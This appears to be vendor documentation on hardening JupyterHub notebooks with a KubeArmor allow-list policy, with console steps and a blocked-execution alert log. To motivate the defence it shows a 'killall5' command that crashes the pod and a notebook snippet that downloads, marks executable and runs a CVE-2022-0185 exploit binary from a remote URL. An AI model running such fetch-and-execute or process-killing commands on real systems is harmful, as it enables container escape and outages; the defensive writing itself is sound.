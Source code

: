 ```yaml
---
title: Jupyter Notebook
description: AccuKnox can help in securing Jupyter Notebook by preventing remote command injection and unauthorized access to kubernetes resources.
---
```


# Jupyter Notebook

JupyterHub brings the power of notebooks to groups of users. It gives users access to computational environments and resources without burdening the users with installation and maintenance tasks. While this is a great model, attackers, or unethical users might take undue advantage of this model. The very nature of the Jupyter notebook is to allow users to do remote command/code execution.

Remote Command Injection is just the start. Left unchecked, the attacker can gain unauthorized access to the kubernetes resources, exfiltrate data and mount supply chain attacks to name a few.

![](images/jupyter-notebook/jupyter-0.png)

### **Insecure Shell**

On a shell of jupyter notebook, any of the binaries are allowed to execute by default. If we try to execute some system binaries, it is observed that there is no restriction to do so. For example, consider the ```killall5``` system binary.

![](images/jupyter-notebook/jupyter-1.png)

Executing ```killall5``` in Jupyter notebook isn’t restricted. The binary terminates all running processes and even affects the kubernetes environment as we can observe the pod getting restarted as the container crashes.

![](images/jupyter-notebook/jupyter-2.png)

### **Remote Code Injection**

Jupyter notebook by nature allows remote code injection and execution of binaries from any source. To demonstrate this, an exploit for CVE-2022-0185 can be used as provided below:

```sh
!touch exploit
import urllib.request
urllib.request.urlretrieve("https://github.com/nyrahul/CVE-2022-0185/raw/master/exploit", "exploit")
!chmod +x exploit
!./exploit
```

On running the above in the notebook, we can see the exploit binary getting executed without any resistance.

![](images/jupyter-notebook/jupyter-3.png)

Such an open environment is not desirable and AccuKnox can help with restricting this behavior by the use of KubeArmor policies.

### **Attack Prevention**

The following policy can be used to protect the Jupyter Notebook:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: protect-jupyter
  namespace: jupyter
spec:
  selector:
    matchLabels:
      app: jupyterhub
      component: singleuser-server
  network:
    matchProtocols:
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: udp
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: tcp
  file:
    matchDirectories:
    - dir: /
      recursive: true
    - dir: /usr/local/bin/
      readOnly: true
    - dir: /bin/
      readOnly: true
    - dir: /usr/bin/
      readOnly: true
  process:
    matchDirectories:
    - dir: /usr/local/bin/
    - dir: /usr/bin/
    - dir: /bin/
  action: Allow
```

The above KubeArmor policy

- Allows only python to use network primitives

- Allows only read access to ```/usr/local/bin/``` and ```/bin/``` folders

- Allows execution only from ```/usr/local/bin/``` and ```/bin/``` folders

### **Preventing exploitation by using AccuKnox Zero Trust CNAPP**

**Step 1**:  To create the policy Navigate to Runtime Protection → Policies. Then select ***Create Policy*** option from the screen.

![](images/jupyter-notebook/jupyter-4.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, save and then select **Save to workspace** option.

![](images/jupyter-notebook/jupyter-5.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting ***Apply Policy***.

![](images/jupyter-notebook/jupyter-6.png)

**Step 4**: Since this is an allow based policy, to effectively make use of it, we’ll need to set the default posture to block.

- **Step 4.1**: Navigate to Inventory → Cloud Workloads. Select the cluster that has jupyterhub deployed and click on **View Workloads**

![](images/jupyter-notebook/jupyter-7.png)

- **Step 4.2**: Click on info at the top of the namespace where jupyterhub is deployed. Then select **Edit** in the pop up that opens

![](images/jupyter-notebook/jupyter-8.png)

- **Step 4.3**: Click on the slider to the left of Process/File to shift to the default deny mode. A green popup appears on successful update.

![](images/jupyter-notebook/jupyter-9.png)

**Step 5**: Now try executing ```!killall5``` in the jupyter notebook instance.

Try downloading and executing the exploit of CVE-2022-0185 with the script that was introduced above.

![](images/jupyter-notebook/jupyter-10.png)

Alerts are generated for the attempts to exploit:

```sh
root:
  Action:Block
  ClusterName:gke-demo
  ContainerID:36e9a4bcf13b3e72aac683dc864414f7d122792b9f8d734f8b230a588cdfdb05
  ContainerImage:quay.io/jupyterhub/k8s-singleuser-sample:3.3.5@sha256:a839b70b9061119ef4117f37f25133d68294c764ae1c1048726c3e65b809d8eb
  ContainerName:notebook
  Cwd:/
  Data:lsm=SECURITY_BPRM_CHECK
  Enforcer:BPFLSM
  HostName:gke-do-637-cluster-pool-1-6a8519c6-d7x3
  HostPID:3410014
  HostPPID:3410013
  Labels:hub.jupyter.org/servername=,hub.jupyter.org/username=user1,release=jupyter-release,app=jupyterhub,chart=jupyterhub-3.3.5,component=singleuser-server,heritage=jupyterhub,hub.jupyter.org/network-access-hub=true
  NamespaceName:jupyter
  Operation:Process
  Owner:
    Name:jupyter-user1
    Namespace:jupyter
    Ref:Pod
  PID:49
  PPID:48
  ParentProcessName:/bin/dash
  PodName:jupyter-user1
  PolicyName:DefaultPosture
  ProcessName:/home/jovyan/exploit
  Resource:/home/jovyan/exploit
  Result:Permission denied
  Source:/bin/dash
  Timestamp:1712060619
  Type:MatchedPolicy
  UID:1000
  cluster_id:25444
  component_name:kubearmor
  instanceGroup:0
  instanceID:0
  workload:1
```

The result is permission denied for both as the policy applied does not allow any process to execute other than the ones present in ```/usr/local/bin```, ```/usr/bin/``` and ```/bin/``` directories. In addition, since the policy also prevents write to these directories, the jupyter environment is shielded from execution of malicious code by attackers.